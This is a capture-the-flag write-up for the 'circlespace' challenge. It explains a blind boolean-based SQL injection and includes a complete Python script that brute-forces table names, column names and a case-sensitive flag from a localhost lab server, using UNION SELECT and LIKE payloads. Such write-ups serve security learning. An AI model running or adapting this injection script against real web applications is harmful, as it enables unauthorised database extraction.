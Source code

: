 # circlespace

The SQL injection is pretty blind with this one, as you're not really given any indication that
the SQL query failed. Failed results will just return `is not part of the circle`, as well as
no results. 

What you can do however, is leverage the true or false returned from the server (is part, is not part)
in order to bruteforce the names of the tables + eventually the flag that we want. Hopefully the
servers don't get hammered too much by this brute-force challenge :P

```py3
#!/usr/bin/python3
import requests
import string

CHARSET = list(string.ascii_lowercase + string.digits) + ['\\_', '-', '{', '}']
CHARSET_CASE_SENSITIVE = list(string.ascii_lowercase + string.ascii_uppercase + string.digits) + ['\\_', '-', '{', '}']

BASE_URL = "http://localhost:5000"

def query(url: str, sql: str, result: list, charset=CHARSET, current=""):
    found = False
    for i in charset:
        r = s.get(url, params={"name": sql.format(current + i + "%")})
        if "is not part" not in r.text:
            found = True
            res = query(url, sql, result, charset=charset, current=current + i)
            if not res:
                result.append(current + i)
    return found
      

s = requests.Session()
# create a circle
r = s.post(f"{BASE_URL}/create", data={"name": "lol"})
circle_url = r.url

# find the right table

def get_tables():
    q = '" AND 1=0 UNION SELECT 1 FROM information_schema.tables WHERE table_type="BASE TABLE" AND table_schema="circlespace" AND table_name LIKE "{}" -- a'
    tables = []
    query(f"{circle_url}/people", q, tables)
    return tables

print(get_tables())
```

So firstly, we try to enumerate the table names through the LIKE keyword. We then see that there is a
suspicious table called `the_cfg`, so let's explore this further! (I may have assumed that the `table_schema`
is circlespace above), but this only allows the attack to run a little faster as it would not try to
enumerate every table from the DB instance.

```py3
def get_columns():
    q = '" AND 1=0 UNION SELECT 1 FROM information_schema.columns WHERE table_schema="circlespace" AND table_name="the_cfg" AND column_name LIKE "{}" -- a'
    columns = []
    query(f"{circle_url}/people", q, columns)
    return columns

print(get_columns())
```

We are able to see that the table has two columns, `cfg_key` and `cfg_value`. This means that we
should be onto something. I kinda cheated a little bit below as I didn't look at the `cfg_key`
column.

Also should mention that the flag is case-sensitive, which is why I used LIKE BINARY instead of
just LIKE.

```py3
def get_flag():
    q = '" AND 1=0 UNION SELECT 1 FROM the_cfg WHERE cfg_value LIKE BINARY "{}" -- a'
    flags = []
    query(f"{circle_url}/people", q, flags, charset=CHARSET_CASE_SENSITIVE)
    return flags

print(get_flag())
```

Only a total of 3400 requests to the server to get the flag, that's probably the shortest I can get it
to without compromising the difficulty...
